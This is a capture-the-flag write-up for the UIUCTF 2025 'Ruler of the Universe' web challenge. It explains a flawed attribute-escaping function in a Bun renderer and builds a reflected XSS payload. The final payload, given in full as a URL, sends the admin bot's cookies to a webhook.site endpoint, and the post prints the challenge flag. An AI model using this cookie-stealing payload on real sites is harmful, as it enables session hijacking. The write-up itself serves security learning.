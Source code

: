 ```yaml
---
title: UIUCTF 2025 - Ruler of the Universe
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - Typescript
  - XSS
authors:
  - Valenter
---
```

*With this ship I have the entire universe at my fingertips.*

Hi everyone, this is the first and easiest in a series of four sci-fi-inspired cosmic-web challenges from uiuctf. I only solved the first three, while my teammate simonedimaria worked on the fourth one, so I will only be tackling those.

First of all, let's take a second to appreciate the homepage of the challenge.
![Homepage](/uiuctf2025/ruler-of-the-universe/screenshot-1.png)

Straight out of last-century digital retrofuturism, System Shock or Neuromancer come to mind.

## Full diagnostic sweep of the mainframe

There's an *Admin Bot* link at the top, which points us in the direction of XSS.
![Admin-Bot](/uiuctf2025/ruler-of-the-universe/screenshot-2.png)

That's cool and all, but what can we actually interact with? Let's open those ominous Astra Main Frame modules at the bottom:
![Modules](/uiuctf2025/ruler-of-the-universe/screenshot-3.png)

Looks like we can leave a message for the crew, and it will appear under **Messages** at the bottom. Hmm, looks suspicious, let's pull up the ship's source code:

```ts
// module.tsx
const Module = ({
  id,
  crewMessage,
}: {
  id: number;
  crewMessage: string | null | undefined;
}) => {
  // ...
  <form class="mt-4" method="GET">
    <label for="message" class="block text-sm mb-1">
      Crew Message:
    </label>
    <input
      id="message"
      name="message"
      type="text"
      class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
      placeholder={
        crewMessage
          ? `Update your message: ${crewMessage}`
          : "Enter a message for the crew"
      }
    />
  </form>
  // ...
};
:contentReference[oaicite:2]{index=2}
```

`crewMessage` is taken directly from `index.tsx`'s `const crewMessage = new URL(req.url).searchParams.get("message");` and interpolated into the *placeholder*.
Diving deeper into how all of this gets rendered onto the page:

```ts
import { escapeHTML } from "bun";

export function render(element: any): string {
  if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
  }
//...
  const propString = props
    ? Object.entries(props)
        .filter(([key]) => key !== "children")
        .map(([key, value]) => {
          if (typeof value === "boolean") {
            return value ? key : "";
          }
          // Here is where double quotes are improperly escaped
          return `${key}="${String(value).replace('"', "&quot;")}"`;
        })
        .filter(Boolean)
        .join(" ")
    : "";

  const openTag = propString ? `<${type} ${propString}>` : `<${type}>`;
  return `${openTag}${children}</${type}>`;
}
```

The render function employs Bun's `escapeHTML`,  which makes the following replacements:
- `"` becomes `"&quot;"`
- `&` becomes `"&amp;"`
- `'` becomes `"&#x27;"`
- `<` becomes `"&lt;"`
- `>` becomes `"&gt;"`

however, it only does so for strings and numbers; for attributes, a much weaker substitution is in place:

```ts
return `${key}="${String(value).replace('"', "&quot;")}"`;
```
but `replace` only takes care of the first instance of the character in a string.

## Initiating the breach protocol

Knowing all this, and with a bit of trial and error, we can craft a working payload:

```js
crewMessage = img"" /><img src=x onerror="alert(1)" x="
```

During serialization:
- the first `"` in `img""` becomes `&quot;`
- the second `"` closes the `img` attribute

the final markup becomes:

```js
<input … placeholder="Update your message: img&quot;"
/>
<img src=x onerror="alert(1)" x=>
```

Now it's only a matter of adapting it to our purposes:

```js
img"" /><img src=x onerror="fetch(\'%s?c=\'+encodeURIComponent(document.cookie))" x="
```

Finally, we encode it into the full URL and send a POST request with the link to the Admin Bot to visit the page and retrieve the flag, which is in the bot's cookies, by forwarding it to our webhook:

```http
https://inst-8be5f028661a5917-ruler-of-the-universe.chal.uiuc.tf/module/0?message=img%22%22%20%2F%3E%3Cimg%20src%3Dx%20onerror%3D%22fetch%28%27https%3A%2F%2Fwebhook.site%2F66ce23cb-d0e5-4bf5-9016-58351c7f0d51%3Fc%3D%27%2BencodeURIComponent%28document.cookie%29%29%22%20x%3D%22
```

**`uiuctf{maybe_i_should_just_use_react_c49b79}`**